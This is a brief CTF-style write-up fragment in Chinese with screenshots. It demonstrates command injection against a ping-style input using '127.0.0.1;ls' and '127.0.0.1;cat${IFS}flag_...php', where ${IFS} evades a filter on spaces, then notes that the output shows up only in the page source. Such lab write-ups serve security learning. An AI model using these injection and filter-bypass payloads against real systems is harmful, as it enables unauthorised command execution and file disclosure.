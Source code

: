 
![1687104284124](image/过滤空格/1687104284124.png)



127.0.0.1;ls

![1687104528980](image/过滤空格/1687104528980.png)

127.0.0.1;cat${IFS}flag_19886759130987.php

![1687104582743](image/过滤空格/1687104582743.png)


此时并没有回显， 右键查看源码

![1687104444245](image/过滤空格/1687104444245.png)
